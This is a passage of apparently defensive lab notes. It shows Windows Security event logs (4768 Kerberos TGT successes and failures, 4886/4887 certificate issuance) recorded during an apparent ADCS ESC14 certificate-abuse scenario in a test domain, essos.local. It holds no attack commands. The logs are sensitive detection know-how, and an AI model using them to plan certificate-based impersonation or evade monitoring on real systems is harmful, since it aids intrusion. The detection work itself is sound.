	Advertized Etypes:	
		AES256-CTS-HMAC-SHA1-96
		AES128-CTS-HMAC-SHA1-96

Additional Information:
	Ticket Options:		0x40800010
	Result Code:		0x0
	Ticket Encryption Type:	0x12
	Session Encryption Type:	0x12
	Pre-Authentication Type:	16
	Pre-Authentication EncryptionType:	0x0

Certificate Information:
	Certificate Issuer Name:		ESSOS-CA
	Certificate Serial Number:	64000000052D06C5643675746D000000000005
	Certificate Thumbprint:		09D19A519F14F3B9F85C1E14BFE9A7AC9AC489AA

Ticket information
	Response ticket hash:		n/a
Certificate information is only provided if a certificate was used for pre-authentication.

Pre-authentication types, ticket options, encryption types and result codes are defined in RFC 4120.
```

```jsx
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-A5BA-3E3B0328C30D}" /> 
  <EventID>4768</EventID> 
  <Version>2</Version> 
  <Level>0</Level> 
  <Task>14339</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8020000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-14T21:17:19.510258000Z" /> 
  <EventRecordID>88900</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="680" ThreadID="2640" /> 
  <Channel>Security</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="TargetUserName">khal.drogo</Data> 
  <Data Name="TargetDomainName">ESSOS.LOCAL</Data> 
  <Data Name="TargetSid">S-1-5-21-1330862731-2240521544-517571234-1115</Data> 
  <Data Name="ServiceName">krbtgt</Data> 
  <Data Name="ServiceSid">S-1-5-21-1330862731-2240521544-517571234-502</Data> 
  <Data Name="TicketOptions">0x40800010</Data> 
  <Data Name="Status">0x0</Data> 
  <Data Name="TicketEncryptionType">0x12</Data> 
  <Data Name="PreAuthType">16</Data> 
  <Data Name="IpAddress">::ffff:192.168.56.200</Data> 
  <Data Name="IpPort">41370</Data> 
  <Data Name="CertIssuerName">ESSOS-CA</Data> 
  <Data Name="CertSerialNumber">64000000052D06C5643675746D000000000005</Data> 
  <Data Name="CertThumbprint">09D19A519F14F3B9F85C1E14BFE9A7AC9AC489AA</Data> 
  <Data Name="ResponseTicket">n/a</Data> 
  <Data Name="AccountSupportedEncryptionTypes">0x27 (DES, RC4, AES-Sk)</Data> 
  <Data Name="AccountAvailableKeys">AES-SHA1, RC4</Data> 
  <Data Name="ServiceSupportedEncryptionTypes">0x1F (DES, RC4, AES128-SHA96, AES256-SHA96)</Data> 
  <Data Name="ServiceAvailableKeys">AES-SHA1, RC4</Data> 
  <Data Name="DCSupportedEncryptionTypes">0x1F (DES, RC4, AES128-SHA96, AES256-SHA96)</Data> 
  <Data Name="DCAvailableKeys">AES-SHA1, RC4</Data> 
  <Data Name="ClientAdvertizedEncryptionTypes">AES256-CTS-HMAC-SHA1-96 AES128-CTS-HMAC-SHA1-96</Data> 
  <Data Name="SessionKeyEncryptionType">0x12</Data> 
  <Data Name="PreAuthEncryptionType">0x0</Data> 
  </EventData>
  </Event>
```

## 4768. Failure TGT request

0x4B corresponds toerror KDC_ERR_CLIENT_NAME_MISMATCH



```jsx

A Kerberos authentication ticket (TGT) was requested.

Account Information:
	Account Name:		khal.drogo
	Supplied Realm Name:	ESSOS.LOCAL
	User ID:			NULL SID
	MSDS-SupportedEncryptionTypes:	-
	Available Keys:	-

Service Information:
	Service Name:		krbtgt/ESSOS.LOCAL
	Service ID:		NULL SID
	MSDS-SupportedEncryptionTypes:	-
	Available Keys:	-

Domain Controller Information:
	MSDS-SupportedEncryptionTypes:	-
	Available Keys:	-

Network Information:
	Client Address:		::ffff:192.168.56.200
	Client Port:		45292
	Advertized Etypes:	-

Additional Information:
	Ticket Options:		0x40800010
	Result Code:		0x4B
	Ticket Encryption Type:	0xFFFFFFFF
	Session Encryption Type:	0x2D
	Pre-Authentication Type:	-
	Pre-Authentication EncryptionType:	0x2D

Certificate Information:
	Certificate Issuer Name:		ESSOS-CA
	Certificate Serial Number:	64000000052D06C5643675746D000000000005
	Certificate Thumbprint:		09D19A519F14F3B9F85C1E14BFE9A7AC9AC489AA

Ticket information
	Response ticket hash:		-
Certificate information is only provided if a certificate was used for pre-authentication.

Pre-authentication types, ticket options, encryption types and result codes are defined in RFC 4120.
```

```jsx
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-A5BA-3E3B0328C30D}" /> 
  <EventID>4768</EventID> 
  <Version>2</Version> 
  <Level>0</Level> 
  <Task>14339</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8010000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-14T22:21:55.428617100Z" /> 
  <EventRecordID>89631</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="680" ThreadID="1188" /> 
  <Channel>Security</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="TargetUserName">khal.drogo</Data> 
  <Data Name="TargetDomainName">ESSOS.LOCAL</Data> 
  <Data Name="TargetSid">S-1-0-0</Data> 
  <Data Name="ServiceName">krbtgt/ESSOS.LOCAL</Data> 
  <Data Name="ServiceSid">S-1-0-0</Data> 
  <Data Name="TicketOptions">0x40800010</Data> 
  <Data Name="Status">0x4b</Data> 
  <Data Name="TicketEncryptionType">0xffffffff</Data> 
  <Data Name="PreAuthType">-</Data> 
  <Data Name="IpAddress">::ffff:192.168.56.200</Data> 
  <Data Name="IpPort">59940</Data> 
  <Data Name="CertIssuerName">ESSOS-CA</Data> 
  <Data Name="CertSerialNumber">64000000052D06C5643675746D000000000005</Data> 
  <Data Name="CertThumbprint">09D19A519F14F3B9F85C1E14BFE9A7AC9AC489AA</Data> 
  <Data Name="ResponseTicket">-</Data> 
  <Data Name="AccountSupportedEncryptionTypes">-</Data> 
  <Data Name="AccountAvailableKeys">-</Data> 
  <Data Name="ServiceSupportedEncryptionTypes">-</Data> 
  <Data Name="ServiceAvailableKeys">-</Data> 
  <Data Name="DCSupportedEncryptionTypes">-</Data> 
  <Data Name="DCAvailableKeys">-</Data> 
  <Data Name="ClientAdvertizedEncryptionTypes">-</Data> 
  <Data Name="SessionKeyEncryptionType">0x2d</Data> 
  <Data Name="PreAuthEncryptionType">0x2d</Data> 
  </EventData>
  </Event>
```


## 4886. Certificate Services received a certificate request



Updated on Windows:



```jsx
Certificate Services approved a certificate request and issued a certificate.
	
Request ID:	5
Requester:	ESSOS\ESC14A$
Attributes:	
Disposition:	3
SKI:		a8 36 11 b3 73 16 d9 3b 56 58 86 7f 4d d5 4f 56 d5 64 86 8a
Subject:	CN=esc14a.essos.local
Subject Alternative Name:
DNS Name=esc14a.essos.local

Certificate Template:	Machine
Serial Number:		64000000052d06c5643675746d000000000005
Authentication Service:	NTLM
Authentication Level:	Privacy
DCOMorRPC:		DCOM
```

```jsx

- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" /> 
  <EventID>4886</EventID> 
  <Version>1</Version> 
  <Level>0</Level> 
  <Task>12805</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8020000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-14T20:37:50.4818638Z" /> 
  <EventRecordID>48883</EventRecordID> 
  <Correlation ActivityID="{17247173-0d5b-0000-e172-24175b0ddc01}" /> 
  <Execution ProcessID="776" ThreadID="4752" /> 
  <Channel>Security</Channel> 
  <Computer>braavos.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="RequestId">5</Data> 
  <Data Name="Requester">ESSOS\ESC14A$</Data> 
  <Data Name="Attributes">CertificateTemplate:Machine ccm:braavos.essos.local</Data> 
  <Data Name="Subject">CN=Esc14a$</Data> 
  <Data Name="SubjectAlternativeName" /> 
  <Data Name="CertificateTemplate">Machine</Data> 
  <Data Name="RequestOSVersion" /> 
  <Data Name="RequestCSPProvider" /> 
  <Data Name="RequestClientInfo" /> 
  <Data Name="AuthenticationService">NTLM</Data> 
  <Data Name="AuthenticationLevel">Privacy</Data> 
  <Data Name="DCOMorRPC">DCOM</Data> 
  </EventData>
  </Event>

```

## 4887. Certificate Services approved a certificate request and issued a certificate. New version





```jsx
Certificate Services approved a certificate request and issued a certificate.
	
Request ID:	5
Requester:	ESSOS\ESC14A$
Attributes:	
CertificateTemplate:Machine
ccm:braavos.essos.local
Disposition:	3
SKI:		a8 36 11 b3 73 16 d9 3b 56 58 86 7f 4d d5 4f 56 d5 64 86 8a
Subject:	CN=esc14a.essos.local
Subject Alternative Name:
DNS Name=esc14a.essos.local

Certificate Template:	Machine
Serial Number:		64000000052d06c5643675746d000000000005
Authentication Service:	NTLM
Authentication Level:	Privacy
DCOMorRPC:		DCOM
```

```jsx
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" /> 
  <EventID>4887</EventID> 
  <Version>1</Version> 
  <Level>0</Level> 
  <Task>12805</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8020000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-14T20:37:50.6107414Z" /> 
  <EventRecordID>48889</EventRecordID> 
  <Correlation ActivityID="{17247173-0d5b-0000-e172-24175b0ddc01}" /> 
  <Execution ProcessID="776" ThreadID="4752" /> 
  <Channel>Security</Channel> 
  <Computer>braavos.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="RequestId">5</Data> 
  <Data Name="Requester">ESSOS\ESC14A$</Data> 
  <Data Name="Attributes">CertificateTemplate:Machine ccm:braavos.essos.local</Data> 
  <Data Name="Disposition">3</Data> 
  <Data Name="SubjectKeyIdentifier">a8 36 11 b3 73 16 d9 3b 56 58 86 7f 4d d5 4f 56 d5 64 86 8a</Data> 
  <Data Name="Subject">CN=esc14a.essos.local</Data> 
  <Data Name="SubjectAlternativeName">DNS Name=esc14a.essos.local</Data> 
  <Data Name="CertificateTemplate">Machine</Data> 
  <Data Name="SerialNumber">64000000052d06c5643675746d000000000005</Data> 
  <Data Name="AuthenticationService">NTLM</Data> 
  <Data Name="AuthenticationLevel">Privacy</Data> 
  <Data Name="DCOMorRPC">DCOM</Data> 
  </EventData>
  </Event>
```
